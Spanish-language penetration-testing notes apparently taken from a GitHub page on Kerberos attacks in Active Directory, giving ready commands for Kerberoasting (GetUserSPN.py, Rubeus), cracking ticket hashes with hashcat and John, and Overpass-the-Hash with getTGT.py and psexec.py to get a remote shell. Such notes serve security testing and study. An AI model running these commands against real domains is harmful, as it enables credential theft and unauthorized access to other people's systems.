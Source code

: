 ```bash
python GetUserSPN.py [domain]/[users]:[password] --outputfile hashes.kerberoast
```

Con este comando, obtenemos un fichero con un TGS por linea que se puede utilizar en Hascat o John para obtener las credenciales de los usuarios.

Con la herramienta **Rubeus.exe** (desde el Windows del usuario del dominio comprometido):

```bash
Rubeus.exe Kerberoast /outfile:hashes.Kerberoast
```

## Crackeando los TGS's

Con **Hashcat**:

```bash
hashcat -m 13100 --force -a 0 hashes.Kerberoast [pass.txt]
```

Con **John**:

```bash
john --format=krb5tgs --wordlist=[pass.txt] hashes.Kerberoast
```

## Pass The Hash ¡Falta!

## Overpass The Hash/Pass The Key (PTK)

Se utiliza el hash NTLM de un usuario para solicitar tickets de Kerberos, como alternativa al típico Pass The Hash sobre el protocolo NTLM.**Esta tecnica es útil en redes donde el protocolo NTLM se encuentra deshabilitado y solamente Kerberos permite este protocolo como autenticación.**

<span style="color:red">Necesario el hash NTLM o contraseña del usuario</span>. Con estas credenciales, se puede solicitar un TGT (Ticket Granting Tickets) y utilizar después este para acceder a culaquier servicio del dominio en nombre del usuario.

Con **getTGT.py** (impacket):

```bash
python getTGT.py [domain]/[user] -hashes [hash NTLM]
```

Obteniendo el TGT, podemos usar otras herramientas como **psexec.py** para acceder a los sistemas Windows que se pueda con el TGT. Importamos el TGT en el sistema:

```bash
export KRB5CCNAME=/root/impacket-examples/[user.ccache]
```

```bash
python psexec.py [domain]/[user]@[equipo domain] -k -no-pass
```

Se obtendra una shell. Este ticket se puede utilizar con otros scripts de Impacket con el parametro -k u otras herramientas ya que este ticket TT se guarda en un fichero .ccache (formato utilizado en Linux para almacenar tickets)
